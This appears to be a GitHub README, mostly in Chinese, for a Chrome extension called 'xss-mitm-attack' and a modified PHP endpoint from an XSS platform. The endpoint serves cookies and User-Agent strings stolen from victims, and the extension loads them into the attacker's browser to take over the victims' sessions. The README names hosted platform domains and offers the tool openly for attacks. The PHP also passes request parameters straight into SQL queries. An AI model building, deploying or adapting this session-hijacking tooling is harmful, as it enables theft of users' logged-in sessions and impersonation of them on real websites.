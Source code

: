 xss-mitm-attack
===============

a chrome extension for xss attack

##前言
修改后的拓展符合manifest 2.0的规范，而且能够同时劫持cookie&用户浏览器的User-Agent（有些网站的加密cookie是跟当前用户浏览器ua相关的所以我们希望达到的时完全模拟用户的会话请求）

##接口json返回示例

	[
	    {
	        "url": "http://xx.xxx.com/",
	        "cookie": "asd=adasdasd;",
	        "ua": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.153 Safari/537.36"
	    },
	    {
	        "url": "http://asd.asdasdasd.com/",
	        "cookie": "backauthv20=asdasd; login_log_date_449=1408079402",
	        "ua": "Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.101 Safari/537.36"
	    }
	]


自改xss小平台上线

　　原先一直用xss.hk结果不知怎么被关的，正好手上有代码于是自己搭了一个，网上的类似的xss平台大多一样，原先的xss的chrome插件，不适合 "manifest_version": 2, 
而且很多其他的xss平台直接把代码拿过来，chrome插件的里面的许多代码内容跟xss.me这个与域名绑定的，而且有些加密cookie里面有浏览器的ua信息绑定，所以只用插件替换cookie有时候无法达到效果，否则得借助第三方修改header的插件，我们希望的是完全模拟劫持到的浏览器会话。 
于是有了这一次的修改，php那把在/do/auth的那个接口返回增加了劫持ua的信息，点击口修改当前浏览器cookie跟ua来劫持会话。 
数据放在别人那总归不放心，当然你也可以只用插件，填你自己的接口的信息，你只用插件来劫持会话，我也不会知道你的数据，不过你得稍微修改下php后台的的接口。

平台地址：

x.liet.me

因被公司和谐，域名转到原先的账号依然存在  code4liet.duapp.com

 

chrome xss mitm attack插件代码地址

https://github.com/lietdai/xss-mitm-attack

 

修改后的do.php

<?php
/**
 * api.php 接口
 * ----------------------------------------------------------------
 * OldCMS,site:http://www.oldcms.com
 */
if(!defined('IN_OLDCMS')) die('Access Denied');

$auth=Val('auth','GET');
$db=DBConnect();
$project=$db->FirstRow("SELECT * FROM ".Tb('project')." WHERE authCode='{$auth}'");
if(empty($project)) exit('Auth Err.');

switch($act){
    case 'content':
    default:
        $domain=Val('domain','GET');
        $where='';
        if(!empty($domain)) $where.=" AND domain='{$domain}'";
        $res=$db->Dataset("SELECT content,serverContent FROM ".Tb('project_content')." WHERE projectId='{$project[id]}' {$where} ORDER BY id DESC");
        $data=array();
        foreach($res as $k=>$v){
            $row=array();
            $content=json_decode($v['content'],true);
            $serverContent = json_decode($v['serverContent'],true);
            $row['url']=$content['opener']?$content['opener']: $content['toplocation'];
            $row['cookie']=$content['cookie'];
            $serverContent = json_decode($v['serverContent'],true);
            $row['ua'] = $serverContent['HTTP_USER_AGENT']?:"";
            $data[]=$row;
        }
        echo JsonEncode($data);
        break;
}
?>
